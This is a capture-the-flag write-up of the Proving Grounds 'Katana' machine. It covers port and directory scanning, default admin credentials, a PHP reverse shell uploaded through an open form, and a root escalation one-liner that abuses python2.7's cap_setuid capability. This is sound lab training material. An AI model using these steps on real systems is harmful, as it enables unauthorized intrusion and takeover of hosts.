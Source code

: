 # Katana
**Date:** June 3rd 2022

**Author:** j.info

**Link:** [**Proving Grounds**](https://portal.offensive-security.com/proving-grounds/play) on Offensive Security

**PG Difficulty Rating:** Easy

<br>

![](images/katana0.png)

<br>

## Objectives
- local.txt flag
- proof.txt flag

<br>

## Initial Enumeration

### Nmap Scan

`sudo nmap -sV -sC -T4 192.168.94.83`

```bash
PORT     STATE SERVICE VERSION
21/tcp   open  ftp     vsftpd 3.0.3
22/tcp   open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
80/tcp   open  http    Apache httpd 2.4.38 ((Debian))
|_http-title: Katana X
8088/tcp open  http    LiteSpeed httpd
```

An additional all ports scan added the following:

```bash
7080/tcp open  ssl/empowerid LiteSpeed
8715/tcp open  http          nginx 1.14.2
```

<br>

### Gobuster Scan

`gobuster dir -u http://192.168.94.83 -t 100 -r -x php,txt,html -w dir-med.txt`

```bash
/index.html           (Status: 200) [Size: 655]
/ebook                (Status: 200) [Size: 3998]
```

Additional scan of **/ebook**:

```bash
/database             (Status: 200) [Size: 1181]
/index.php            (Status: 200) [Size: 3998]
/contact.php          (Status: 200) [Size: 4155]
/admin.php            (Status: 200) [Size: 3153]
/books.php            (Status: 200) [Size: 5164]
/info.php             (Status: 200) [Size: 94933]
/cart.php             (Status: 200) [Size: 2702]
/book.php             (Status: 200) [Size: 10]
/template             (Status: 200) [Size: 1166]
/purchase.php         (Status: 200) [Size: 2692]
/edit.php             (Status: 200) [Size: 16]
/checkout.php         (Status: 200) [Size: 2696]
/process.php          (Status: 200) [Size: 2016]
/models               (Status: 200) [Size: 2126]
/functions            (Status: 200) [Size: 1407]
/verify.php           (Status: 200) [Size: 69]
/bootstrap            (Status: 200) [Size: 1520] 
/controllers          (Status: 200) [Size: 982]
```

Another scan this time of **port 8088**:

```bash
/upload.html          (Status: 200) [Size: 6480]
/index.html           (Status: 200) [Size: 655]
/docs                 (Status: 200) [Size: 5472]
/protected            (Status: 401) [Size: 1242]
/blocked              (Status: 403) [Size: 1227]
/phpinfo.php          (Status: 200) [Size: 50735]
```


<br>

## Website Digging

Visiting the main page:

![](images/katana1.png)

Checking out **/ebook**:

![](images/katana2.png)

Opening up the **/database** link shows us a text file letting us know what the default admin credentials are as well as provides us with a file called **www_project.sql** which is a dump of the database.

![](images/katana3.png)

![](images/katana4.png)

Downloading the **www_project.sql** file allows us to open it up in a standard text editor. Not much useful in side other than the password hash for the admin user:

```sql
CREATE TABLE IF NOT EXISTS `admin` (
  `name` varchar(20) COLLATE latin1_general_ci NOT NULL,
  `pass` varchar(40) COLLATE latin1_general_ci NOT NULL
) ENGINE=InnoDB DEFAULT CHARSET=latin1 COLLATE=latin1_general_ci;

--
-- Dumping data for table `admin`
--

INSERT INTO `admin` (`name`, `pass`) VALUES
('admin', 'd033e22ae348aeb5660fc2140aec35850c4da997');
```

Instead of trying to crack the hash I check the default password first that we found in the text file a minute ago:

![](images/katana5.png)

![](images/katana6.png)

Alright now that we're signed in let's see what we can do.

I try and add a book and use a reverse php shell as the image, but it doesn't work. I try some other things to make this work by changing the file extension and even the magic number on the file but can't get it to work.

Let's look at the port 8088 version of the website. It had an **upload.html** so that sounds promising:

![](images/katana7.png)

I upload a reverse php shell:

![](images/katana8.png)

<br>

## System Access

If you read the message it says it's moved to the other web server under a file name of **katana_p.php**. I try and load it on the port 80 website and it doesn't work. I then try on the **port 8715** website and it does work!

![](images/katana9.png)

I upgrade my shell using python3 and start searching around the system.

<br>

## System Enumeration

`sudo -l` requires a password.

Searching for SUID and SGID with `find / -perm /6000 2>/dev/null` doesn't give us anything out of the ordinary.

<br>

## Root

I check to see if anything has **capabilities** that we can use and find we do:

`getcap -r / 2>/dev/null`

```
/usr/bin/python2.7 = cap_setuid+ep
```

Checking on [**GTFOBins**](https://gtfobins.github.io/gtfobins/python/#capabilities) shows us how to escalate our privileges to root:

![](images/katana10.png)

`python -c 'import os; os.setuid(0); os.system("/bin/sh")'`

```
www-data@katana:~$ python -c 'import os; os.setuid(0); os.system("/bin/sh")'
# whoami
root
# hostname
katana
```

Now to find our flags.

`find / -name local.txt 2>/dev/null`

```
/var/www/local.txt
```

`wc -c /var/www/local.txt`

```
33 /var/www/local.txt
```

`wc -c /root/proof.txt`

```
33 /root/proof.txt
```

<br>

With that we've completed this CTF!

![](images/katana11.png)

<br>

## Conclusion

A quick run down of what we covered in this CTF:

- Basic enumeration with **nmap** and **gobuster**
- Manual enumeration of 3 different websites before finding an **upload form** that allowed us to upload a **php reverse shell** and establish an initial foothold on the system
- Finding that **python2.7** had the **cap_setuid+ep** capability set allowing us to escalate our privileges to root

<br>

Many thanks to:
- [**Offensive Security**](https://www.offensive-security.com/) for hosting this CTF
